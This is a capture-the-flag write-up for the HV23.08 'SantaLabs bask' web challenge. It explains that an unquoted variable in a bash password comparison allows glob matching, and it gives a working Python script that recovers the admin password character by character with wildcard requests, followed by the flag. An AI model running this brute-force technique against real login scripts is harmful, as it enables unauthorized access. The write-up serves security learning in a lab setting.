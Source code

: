 # [HV23.08] SantaLabs bask

This one was a pain, half of the time the webserver just didn't give a response, but in the end it was a relatively simple challenge.

Looking at the source we are given, we can see two different places where Logins are handled.

Once in `admin.sh`:
```bash
if [[ "$FIRST_COOKIE" == "$ADMIN_PASSWORD" ]]; then
```

and once in `post_login.sh`:
```bash
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
```

The problem here is that `post_login.sh` does not have `"` around the variables, so we can use some bash trickery to brute-force the password character by character.

```py
import requests
import string

host = "e4ec6e1b-ce79-4c8c-a76d-8f7e2e480e5b.idocker.vuln.land"
pw = ""
while True:
    for c in string.ascii_lowercase:
        print(f"\r{pw}{c}", end="")
        while True:
            resp = requests.post(f"https://{host}/login",
                    data=f"password={pw}{c}*")
            if resp.status_code == 200:
                break
        if c == "s":
            x = 1
        if "admin_token" in resp.text:
            pw += c
            break
    resp = requests.post(f"https://{host}/login", data=f"password={pw}")
    if "admin_token" in resp.text:
        print()
        break
```

This gives us  the admin password `salami`, which gives us the flag.

Flag: `HV23{gl0bb1ng_1n_b45h_1s_fun}`